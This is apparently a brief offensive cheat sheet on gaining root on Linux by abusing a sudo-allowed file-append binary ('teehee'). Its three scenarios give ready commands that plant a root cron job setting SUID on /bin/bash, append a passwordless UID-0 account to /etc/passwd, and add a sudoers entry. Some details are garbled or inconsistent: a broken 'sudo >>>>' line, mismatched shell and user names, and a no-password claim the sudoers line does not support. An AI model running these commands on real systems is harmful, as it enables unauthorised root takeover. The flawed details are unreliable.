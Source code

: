 # STDIN/STDOUT

if we can copy stdin to a file and to stdout we can use these techniques to gain root privilege on linux. this can be done with a vulnerable binary that doesn't correctly handle I/O.

## <mark style="color:red;">Scenario #1</mark>

add an entry to the “/etc/crontab” file which is executed every minute to change the permissions fro the “/bin/sh” binary to be 4777 which means SUID.

```
echo "* * * * * root chmod 4777 /bin/bash" | sudo >>>>  /etc/crontab
```

if the vulnerable binry file is called teehee, we will have something like this:

```
echo "* * * * * root chmod 4777 /bin/bash" | sudo teehee -a /etc/crontab
/bin/bash
```

this means that the vulnerable binary run the echo command and add the line to /etc/crontab which will run every minute and gives us full access to /bin/bash as root

## <mark style="color:red;">Scenario #2</mark>

adding an entry the /etc/passwd file for a new user called “hackingresources” with the same uid (User ID) and gid (Group ID) as root user and this user has no password.

```
echo "root2::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
su root2
```

again we are using the same vulnerability with a different method.

## <mark style="color:red;">Scenario #3</mark>

by adding an entry to the /etc/sudoers file which will allow jim user to run all the commands as root without the need for the password.

```
echo " username ALL=(ALL:ALL) ALL" | sudo teehee -a /etc/sudoers 
username$ sudo /bin/bash
```
